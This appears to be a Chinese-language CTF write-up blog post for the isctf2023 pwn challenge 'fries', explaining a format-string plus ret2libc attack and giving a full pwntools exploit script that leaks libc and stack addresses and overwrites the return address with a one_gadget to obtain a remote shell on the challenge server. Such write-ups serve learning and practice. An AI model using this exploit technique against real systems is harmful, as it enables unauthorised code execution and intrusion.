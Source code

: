 ```yaml
---
title: isctf2023 - fries
date: 2023/12/4 12:00:00
updated: 2024/7/30 10:28:00
tags:
    - noob
excerpt: 涉及格式化字符串和ret2libc攻击，通过泄露栈和libc地址并利用one_gadget实现远程shell。
---
```


## 文件分析

保护全开  
ghidra分析为64位程序

## 解题思路

这道题考察格式化字符串+ret2libc，共有8次机会，可以先leak栈地址和libc地址，
再把返回地址写成打开shell，此处使用one_gadget可以只利用一次返回完成攻击

{% note tip fa-arrow-right %}
本地能过的脚本，远端换了多少ogg就是不行，最后发现是栈上内容不一样！
下次还是先patchelf把libc打成目标的再本地调试吧（一开始偷懒，本地没patch）
{% endnote %}

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('./fries')
        if lo & 0b10:
            gdb.attach(sh, gdbscript='b *$rebase(0x1300)')
    else:
        sh = remote('43.249.195.138', 21942)
    oneGadgetOffset = 0xebc85
    libc = ELF('./libc.so.6')

    # payload 1, enter adventure()
    sh.sendline(b'fries\0')

    # payload 2, leak libc and stackAddr
    sh.recvuntil(b'pier\n')
    sh.sendline(b'%15$p%24$p')

    libcBase = int(sh.recv(14), 16) - libc.symbols['_IO_2_1_stdout_']
    ogg = libcBase + oneGadgetOffset
    stackRet = int(sh.recv(14), 16) - 0x48

    # payload 3 ~ 8, make one_gadget on retAddr
    mask = 0xff
    for i in range(6):
        sh.recvuntil(b'pier\n')
        count = (ogg & mask) >> 8 * i
        sh.sendline(f'%{count}c%10$hhn'.ljust(16).encode() + p64(stackRet + i))
        mask <<= 8

    # payload 9, discard remaining 1 read
    sh.recvuntil(b'pier\n')
    sh.sendline(b'just for fun\0')

    sh.interactive()
```

Done.
